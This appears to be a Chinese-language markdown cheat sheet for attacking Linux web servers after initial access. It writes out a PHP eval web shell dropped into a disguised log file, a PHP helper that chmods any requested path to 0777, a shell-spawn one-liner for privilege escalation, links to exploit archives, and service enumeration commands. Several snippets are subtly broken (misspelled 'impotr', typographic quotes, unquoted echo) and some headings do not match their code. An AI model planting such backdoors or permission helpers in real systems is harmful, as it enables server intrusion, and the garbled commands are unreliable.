 #### php 后门
```php
echo -e "<?php @eval(\$_POST[md5])?>" > rankuplog_time.php 
cat rankuplog_time.php 
```

#### 跨站
```python
ls -la /www.users/ 
```

#### 溢出提权
```python
python –c ‘impotr pty;pty.spawn(“/bin/sh”); 
```
- 第三方软件漏洞
- 本地信任特性
- 内核溢出

#### docs
- http://tools.90sec.org/
- http://sebug.net/paper/linux_exp/
- http://x73.cc/bitch/exp/
- http://www.exploit-db.com/search/


#### 利用跨站代码
```php
$path = stripslashes($_GET['path']);
$ok = chmod ($path , 0777);

if ($ok == true)
  echo CHMOD OK , Permission editable file or directory. Permission to write;
?>
```

```cmd
service --status-all | grep running
service --status-all | grep http
```

#### 重启ssh
```cmd
/usr/sbin/sshd stop
usr/sbin/sshd start 
```
